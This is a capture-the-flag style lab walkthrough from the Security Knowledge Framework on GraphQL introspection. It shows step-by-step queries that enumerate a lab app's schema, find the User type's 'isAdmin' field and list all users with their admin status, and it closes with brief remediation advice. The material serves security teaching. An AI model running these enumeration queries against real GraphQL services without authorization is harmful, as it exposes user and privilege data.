

# KBID 285 - GraphQL introspections

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```


Now that the app is running let's go hacking!


## Reconnaissance

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

PRTINSCREEN PLACEHOLDER

## Exploitation

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported.

Let' use the `GraphiQL` UI to send queries to the backend and discover what is available.

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `User` one. If we build another query we can ask for more information, exploring every field available. Let's send the following:

```
{
	__type(name: "User"){
    name
    fields{
      name
    }
  }
}
```

In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```json
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "id"
        },
        {
          "name": "username"
        },
        {
          "name": "isAdmin"
        }
      ]
    }
  }
}
```

> BINGO! We have some good information here

We can see that there is an interesting field `isAdmin`, that we can use to find out who is the admin of the application.

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
{
	__schema{
    queryType{
      fields{
        name
        description
      }
    }
  }
}
```

That will give us the `Users` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
	Users{
    username
    isAdmin
  }
}

```



## Solution

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.

## Additional resources


